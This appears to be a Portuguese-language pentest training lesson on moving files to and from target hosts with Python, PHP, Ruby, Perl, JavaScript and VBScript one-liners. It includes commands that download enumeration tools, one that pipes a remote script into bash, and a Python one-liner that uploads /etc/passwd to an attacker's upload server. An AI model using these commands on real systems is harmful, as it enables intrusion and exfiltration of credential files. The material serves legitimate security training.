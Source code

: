 É comum encontrar diferentes linguagens de programação instaladas nas máquinas que estamos segmentando. Linguagens de programação como Python, PHP, Perl e Ruby estão geralmente disponíveis nas distribuições Linux, mas também podem ser instaladas no Windows, embora isso seja muito menos comum.

Podemos usar alguns aplicativos padrão do Windows, como `cscript` e `mshta`, para executar código JavaScript ou VBScript. O JavaScript também pode ser executado nos hosts do Linux.

Segundo a Wikipedia, existem por aí [700 linguagens de programação](https://en.wikipedia.org/wiki/List_of_programming_languages), e podemos criar código em qualquer idioma de programação, para baixar, carregar ou executar instruções no sistema operacional. Esta seção fornecerá alguns exemplos usando linguagens de programação comuns.

## Python

Python é uma linguagem de programação popular. Atualmente, a versão 3 é suportada, mas podemos encontrar servidores onde o Python versão 2.7 ainda sai. `Python` pode executar one-liners a partir de uma linha de comando do sistema operacional usando a opção `-c`. Vamos ver alguns exemplos:

#### Python 2 - Download

```shell-session
casluxd@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Baixar

```shell-session
casluxd@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP

`PHP` também é muito prevalente e fornece vários métodos de transferência de arquivos. [De acordo com os dados da W3Techs](https://w3techs.com/technologies/details/pl-php), O PHP é usado por 77,4% de todos os sites com uma linguagem de programação conhecida no servidor. Embora as informações não sejam precisas e o número possa ser um pouco menor, geralmente encontramos serviços da Web que usam PHP ao executar uma operação ofensiva.

Vamos ver alguns exemplos de download de arquivos usando PHP.

No exemplo a seguir, usaremos o PHP [file_get_contents ( módulo )](https://www.php.net/manual/en/function.file-get-contents.php) para baixar conteúdo de um site combinado com o [file_put_contents ( ) módulo](https://www.php.net/manual/en/function.file-put-contents.php) para salvar o arquivo em um diretório. `PHP` pode ser usado para executar one-liners a partir de uma linha de comando do sistema operacional usando a opção `-r`.

#### Download do PHP com File_get_contents ( )

```shell-session
casluxd@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Uma alternativa para `file_get_contents()` e `file_put_contents()` é o [módulo fpopen ( )](https://www.php.net/manual/en/function.fopen.php). Podemos usar este módulo para abrir um URL, ler o conteúdo e salvá-lo em um arquivo.

```shell-session
casluxd@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

Também podemos enviar o conteúdo baixado para um pipe, semelhante ao exemplo sem arquivo que executamos na seção anterior usando cURL e wget.

#### PHP Baixe um arquivo e pipe-o para Bash

```shell-session
casluxd@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

`**Nota:** O URL pode ser usado como um nome de arquivo com a função @file se os wrappers abertos tiverem sido ativados.`

## Outras linguagens

`Ruby` e `Perl` são outros idiomas populares que também podem ser usados para transferir arquivos. Essas duas linguagens de programação também oferecem suporte à execução de um liners a partir de uma linha de comando do sistema operacional usando a opção `-e`.

#### Ruby - Baixe um arquivo

```shell-session
casluxd@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### Perl - Baixar um arquivo

```shell-session
casluxd@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

O JavaScript é uma linguagem de script ou programação que permite implementar recursos complexos em páginas da web. Como em outras linguagens de programação, podemos usá-lo para muitas coisas diferentes.

O seguinte código JavaScript é baseado em [este](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, e podemos baixar um arquivo usando-o. Criaremos um arquivo chamado `wget.js` e salve o seguinte conteúdo:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Podemos usar o seguinte comando em um prompt de comando do Windows ou terminal PowerShell para executar nosso código JavaScript e baixar um arquivo.

#### Faça o download de um arquivo usando JavaScript e cscript.exe

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ( "Microsoft Visual Basic Scripting Edition" ) é uma linguagem de script ativo desenvolvida pela Microsoft que é modelada no Visual Basic. O VBScript foi instalado por padrão em todas as versões para desktop do Microsoft Windows desde o Windows 98.

O exemplo a seguir do VBScript pode ser usado com base em [isto](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). Criaremos um arquivo chamado `wget.vbs` e salve o seguinte conteúdo:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Podemos usar o seguinte comando em um prompt de comando do Windows ou terminal PowerShell para executar nosso código VBScript e baixar um arquivo.

#### Faça o download de um arquivo usando o VBScript e o cscript.exe

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Carregar operações usando Python3

Se queremos fazer upload de um arquivo, precisamos entender as funções em uma linguagem de programação específica para executar a operação de upload. O Python3 [módulo de solicitações](https://pypi.org/project/requests/) permite enviar solicitações HTTP ( GET, POST, PUT, etc. ) usando Python. Podemos usar o seguinte código se quisermos enviar um arquivo para o nosso Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

#### Iniciando o  módulo Python uploadserver

```shell-session
casluxd@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Upload de um arquivo usando um one-liner Python

```shell-session
casluxd@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Vamos dividir esse one-liner em várias linhas para entender melhor cada peça.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

Podemos fazer o mesmo com qualquer outra linguagem de programação. Uma boa prática é escolher uma e tentar criar um programa de upload.

